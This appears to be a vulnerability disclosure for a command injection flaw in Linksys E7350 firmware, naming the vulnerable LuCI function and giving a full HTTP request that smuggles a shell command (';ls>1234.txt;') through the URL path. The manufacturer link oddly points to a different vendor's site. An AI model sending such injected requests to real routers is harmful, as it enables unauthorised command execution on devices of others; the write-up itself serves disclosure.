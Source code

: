 # Linksys E7350 Ver.1.1.00.032 Command Injection (apcli_do_enr_pbc_wps)

## Product Information

- Device: Linksys E7350
- Firmware Version: Ver.1.1.00.032
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://support.linksys.com/kb/article/6935-cn/

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `apcli_do_enr_pbc_wps` function via the `ifname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/apcli_do_enr_pbc_wps/arg`

![](./3.png)

## Payload

We can trigger this vulnerability by injecting the `ls>1234.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/apcli_do_enr_pbc_wps/;ls>1234.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)
